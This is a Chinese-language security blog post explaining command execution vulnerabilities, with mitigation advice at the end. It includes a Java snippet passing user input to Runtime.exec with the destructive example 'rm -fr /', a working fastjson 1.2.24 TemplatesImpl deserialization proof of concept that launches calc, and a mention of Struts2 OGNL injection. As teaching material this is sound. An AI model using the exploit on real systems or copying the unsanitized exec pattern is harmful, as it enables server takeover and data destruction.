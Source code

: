 ```yaml
---
title: 命令执行漏洞
date: 2018-02-26
categories: ["security"]
---
```


命令执行漏洞是指攻击者可以随意执行系统命令。通常说的远程执行代码漏洞,都是此类型.

<!--more-->

### OS命令执行漏洞

任何语言基本上都可以调用系统命令。比如PHP的system,shell_exec,exec等等或者Java的Runtine.exec都是可以直接执行系统调用的。

举个简单的示例

```
public static void main(String[] args) throws IOException {
		
	if(args.length == 0){
		System.out.println("args is empty !");
	}
	
	String command = args[0];
	Runtime runtime = Runtime.getRuntime();
	Process process = runtime.exec(command);
	InputStreamReader isr = new InputStreamReader(process.getInputStream());
	BufferedReader br = new BufferedReader(isr);
	String line = null;
	while((line=br.readLine())!=null){
		System.out.println(line);
	}
	
	br.close();
}
```
上述代码打包以后,执行 java xxx.jar "rm -fr /",也就是传入的系统执行命令是删除服务器根目录.这是个很危险的操作.倘若类似的代码暴露在公网上面.有意者构造请求就能达到执行恶意命令的目的


### 框架执行漏洞

我们的代码一般是没有使用到runtime.exec , 但是我们经常是使用反射或者字节码相关的类,或者业务系统里面使用了相关的框架,当用户能在输入中构造出相关的执行类时便可以,通过构造出的执行类来达到执行自己恶意代码的目的.

2017年3月15日，fastjson官方主动爆出fastjson在1.2.24及之前版本存在远程代码执行高危安全漏洞。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。 具体地址是 https://github.com/alibaba/fastjson/wiki/security_update_20170315

这个漏洞的大概操作就是,写好一个带有Runtime.exec的类,然后在有用户输入的地方,注入该类的字节码,然后指定fastjson解析为com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl ,此目标类是jdk自带的,所以不需要依赖其他的包.下面来个例子


```
package com.lihongkun.demo.fastjson;

import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

@SuppressWarnings("restriction")
public class Command extends AbstractTranslet {

	public Command() throws IOException{
		Runtime.getRuntime().exec("calc");
	}
	
	public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
		
	}

	public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
			throws TransletException {
	}
}

```

这是个很简单的执行类,我们要做的就是将他的字节码注入到待侵入系统使用了fastjson的地方.


```
package com.lihongkun.demo.fastjson;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

import org.apache.commons.codec.binary.Base64;
import org.apache.commons.io.IOUtils;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class Test {

	public static void main(String[] args) {
		
		String path = System.getProperty("user.dir")+File.separator+"target/classes/com/lihongkun/demo/fastjson/Command.class";
		String evilCode = readBytecode(path);
		
		final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String testJson = "{\"@type\":\"" + NASTY_CLASS + 
        		"\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'a.b','_tfactory':{ },\"_outputProperties\":{}}\n";
        JSON.parseObject(testJson, Object.class,Feature.SupportNonPublicField);
	}
	
	public static String readBytecode(String path){
		ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(path)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
	}
}
```

readBytecode 函数读出了Command类的字节码,并转换成base64,我们使用他来模拟用户的输入,最终放入evilCode,然后构造完整的json对象,也就是testJson.在实际的攻击中只需要往系统里面构造的几个字段即可.在执行了代码后确实是调出了windows的计算器,有兴趣的可以试试.这个侵入是比较巧的它需要业务系统使用了SupportNonPublicField参数.


类似的,struts2的漏洞曾经爆发过几次.它是由于其WEB输入参数使用了OGNL动态绑定到值对象,攻击者构造固定的参数,使其支持静态方法并且直接执行了Runtime的方法.struts2的这个漏洞危害显然是很巨大的,它不需要任何条件,只需要输入构造好的参数.


### 防范命令执行漏洞

- 不要使用这种危险的系统执行命令代码.如果没有使用就不会被利用.
- 非要使用的时候,在执行动态命令之前,一定要对用户输入的变量进行过滤,且对敏感字符进行转义.有输入的地方就可能存在漏洞
- 对于框架类型的,在业务上线前要做好充分测试,如果真有漏洞爆发,要及时进行处理,关注官方的修复情况.